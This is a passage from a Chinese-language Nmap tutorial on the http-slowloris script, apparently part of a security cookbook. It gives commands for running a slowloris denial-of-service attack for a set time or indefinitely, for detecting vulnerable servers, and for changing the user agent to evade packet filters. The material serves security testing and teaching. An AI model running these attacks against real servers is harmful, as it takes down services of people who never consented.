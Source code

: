 要在一定时间内运行 slowloris 攻击，请使用脚本参数`http-slowloris.timelimit`，如下命令所示：

```
$ nmap -p80 --script http-slowloris --script-args http-slowloris.timelimit=15m <target>

```

或者，有一个参数可用于告诉 Nmap 无限期地攻击目标，如以下命令所示：

```
$ nmap -p80 --script http-slowloris --script-args http-slowloris.runforever <target>

```

Aleksandar Nikolic 编写了另一个 NSE 脚本，用于检查有漏洞的 web 服务器，名为`http-slowloris-check`。此脚本只发送两个请求，它使用一种巧妙的方法通过读取和比较连接超时来检测易受攻击的服务器：

```
$ nmap -p80 --script http-slowloris-check <target>

```

### HTTP 用户代理

有一些包过滤产品可以阻止使用 Nmap 的默认 HTTP 用户代理发出的请求。通过设置参数`http.useragent`，可以使用不同的用户代理值：

```
$ nmap -p80 --script http-slowloris --script-args http.useragent="Mozilla 42" <target>

```

## 另见

*   *检测可能的 XST 漏洞*配方
*   *在各种 web 服务器上发现有趣的文件和目录*配方
*   *检测 web 应用程序防火墙*配方
*   *在 web 应用程序中测试默认凭据*配方
*   *发现 web 应用程序中的 SQL 注入漏洞*秘诀